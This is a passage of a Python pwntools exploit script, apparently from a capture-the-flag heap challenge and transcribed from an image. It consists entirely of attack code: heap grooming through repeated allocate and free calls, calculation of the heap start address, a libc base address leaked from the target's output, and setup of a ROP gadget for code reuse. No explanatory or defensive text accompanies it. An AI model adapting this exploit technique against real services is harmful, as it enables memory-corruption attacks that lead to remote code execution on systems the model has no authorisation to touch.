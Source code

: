 ```py
        delete()

        #find last of th

        if p_index < block_start:

            break

        count += 1

    log.info('block start is : %d' % block_start)

    log.info('p_index is : %d' % p_index)

    heap_start_addr = magic_addr - 0x20008 * (count - 1 +0x10 * (block_start / 0x10)) - offest - 8

    log.info('heap start is : ' + hex(heap_start_addr))

    for i in range(0x10):

        delete()

    data = []

    for i in range(0x10):

        data.append([p32(heap_start_addr + 8 + 3 ) * (0x1000 / 4 - 1), 1])


    malloc(0x1000, data)

    delete()

    data = []

    for i in range(0x10):

        data.append(['aaa', 0])

    malloc(0xa0, data)

    callfuc(0)


    show(0, 0x10)

    for i in range(index + 1 - block_start + 0x10):

        out = p.recvline()

        out = out[12 : -1]

        if 'aaa' != out:

            libc_addr = u32(out[4 : 8]) + 1 - 0x1b07b0

            break

    log.info('libc addr is : ' + hex(libc_addr))

    delete()

    magic_gadget1 = 0x00161871# 0x00161871 : xchg eax, ecx ; cld ; call dword
```